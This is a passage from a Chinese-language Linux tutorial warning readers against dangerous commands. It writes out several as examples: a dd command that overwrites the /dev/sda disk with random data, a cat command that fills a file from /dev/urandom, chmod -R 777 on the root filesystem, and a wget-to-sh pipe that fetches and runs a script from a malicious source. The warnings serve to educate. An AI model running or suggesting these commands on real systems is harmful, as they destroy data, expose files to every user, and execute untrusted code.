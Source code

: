 现在，如果你将一些重要的配置文件作为写数据的地方，它将被取代内容，留下一个损坏的系统。


### 7、用垃圾数据替换分区


`/dev/random` 是 Linux 中的一个命令，它可以创建垃圾数据。把它和 [dd 命令](https://linuxhandbook.com/dd-command/) 以及你的分区结合起来，你就得到了一个可以让你的分区着火的燃烧弹。



```
dd if=/dev/random of=/dev/sda

```

`dd` 命令被用作一个低级别的复制工具。这里，它从 `/dev/random` 中获取随机数据，并用这些垃圾替换 `/dev/sda` 分区。


一个类似的效果是通过以下方式获得的：



```
cat /dev/urandom > filename

```

这里，它从 `/dev/urandom`（LCTT 译注：在 Linux 上，`/dev/urandom` 现在和 `/dev/random` 的等价的 ）中获取垃圾数据并填入一个文件。如果不使用 `Ctrl + C` 终止，该文件会占据相当大的空间，这对低端系统来说可能是灾难性的。


### 8、将你的系统暴露给所有人


在 Linux 中，所有东西都是文件，每个 [文件都有一定的权限](https://linuxhandbook.com/linux-file-permissions/)。


你可以用 `ls -l` 查看权限。根文件系统是不允许其他没有权限的用户访问的。虽然这保证了系统的私密性和安全性，但你可以用一个命令颠覆这个系统。



```
chmod -R 777 /

```

上述命令将根分区上的所有文件暴露给所有人。这意味着每个使用该系统的人都有读、写和执行的权限。这对你的系统是不利的。


### 9、下载并运行恶意的内容


你如何在 Linux 中安装软件？你可以使用官方的软件包管理器或随时可以使用的软件包，如 Deb/RPM、Snap、Flatpak 等。


然而，有些软件是没有打包的，它们的开发者提供了下载和运行的 Shell 脚本。以 [Homebrew](https://itsfoss.com/homebrew-linux/) 为例：


你下载一个 Shell 文件，然后以 root 身份运行它，在你的系统中安装一个软件。你看出问题了吗？


虽然它对 Homebrew 这样的官方软件有效，但在你像下面这样直接运行它之前，你应该仔细检查你所下载的 Shell 脚本的内容：



```
wget http://malicious_source -O- | sh

```
